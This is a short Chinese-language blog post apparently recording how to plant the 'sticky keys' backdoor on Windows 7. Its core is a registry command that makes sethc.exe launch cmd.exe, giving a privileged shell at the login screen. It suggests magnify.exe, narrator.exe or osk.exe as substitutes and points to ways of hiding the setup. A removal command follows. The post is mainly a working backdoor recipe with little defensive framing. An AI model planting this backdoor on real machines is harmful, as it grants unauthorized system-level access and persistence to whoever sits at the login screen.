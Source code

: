 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


### About

win03下copy命令可制作粘滞键后门,测试在win7上copy方法无效,本文记录win7下的方法


### Detail

以管理员身份打开cmd.exe运行如下:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe/osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥


<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

```
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
```

以上理论上适用于win vistar以上系统,只在win7上测试过.
